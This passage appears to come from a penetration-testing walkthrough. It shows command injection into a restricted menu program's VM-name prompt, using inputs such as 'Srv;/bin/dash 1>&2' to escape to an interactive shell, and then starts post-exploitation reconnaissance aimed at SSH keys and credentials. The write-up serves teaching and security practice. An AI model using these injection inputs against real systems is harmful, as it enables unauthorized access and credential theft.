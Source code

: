 ```console
########################################
Enter VM name for connect: Srv; whoami 1>&2
cat: /opt/gh/Srv: No such file or directory
remote
########################################
```

Awesome, it works! Now that we are able to see the output from STDERR, let's try and attempt to break out of this program and get a functional shell.

```console
########################################
Enter VM name for connect: Srv;/bin/bash 1>&2
########################################
Enter ServerName or Q for exit:
########################################
Srv1
Srv2
```

Huh... Okay, guess we can't get a shell with [Bash](https://www.gnu.org/software/bash/), so let's try getting a shell using [Dash](https://wiki.archlinux.org/index.php/Dash) and then switching to Bash.

```console
########################################
Enter VM name for connect: Srv;/bin/dash 1>&2
cat: /opt/gh/Srv: No such file or directory
$ bash
##########################
PasswordAuthentication no
##########################
remote@tl11-192-168-11-1:~$ 
```

Oh yah, that's the stuff - we got a working shell on the system!

## Carrying out Post-Exploitation Reconnaissance

Now if you ever took the OSCP, or are planning to take it, then you probably heard everyone telling you "__enumerate, enumerate, enumerate!__", and this is exactly what we will be doing!

Now that we got a shell on the system we need to carry out some reconnaissance of the device to see if we can't find anything "of value" to us - which might be incorrectly set SUID, GUID bit's, files with clear text passwords, ssh key's, etc. literally anything that will help us gain root on the system or will help us in compromising other devices.

Let's start by seeing what we have in the PWD (present working directory).

```console
remote@tl11-192-168-11-1:~$ ls -la
total 28
drwxr-xr-x 3 root remote 4096 Jun 29 18:17 .
drwxr-xr-x 3 root root   4096 Jun 30 16:41 ..
-rw------- 1 root remote  252 Jun 29 18:57 .bash_history
-rw-r--r-- 1 root remote  220 Dec 30  2012 .bash_logout
-rw-r--r-- 1 root remote 3515 Nov  6  2016 .bashrc
-rw-r--r-- 1 root remote  675 Dec 30  2012 .profile
drwxr-x--- 2 root remote 4096 Jul  5 00:40 .ssh
```
Hmmm... __.ssh__ seems interesting, let's see what's inside.

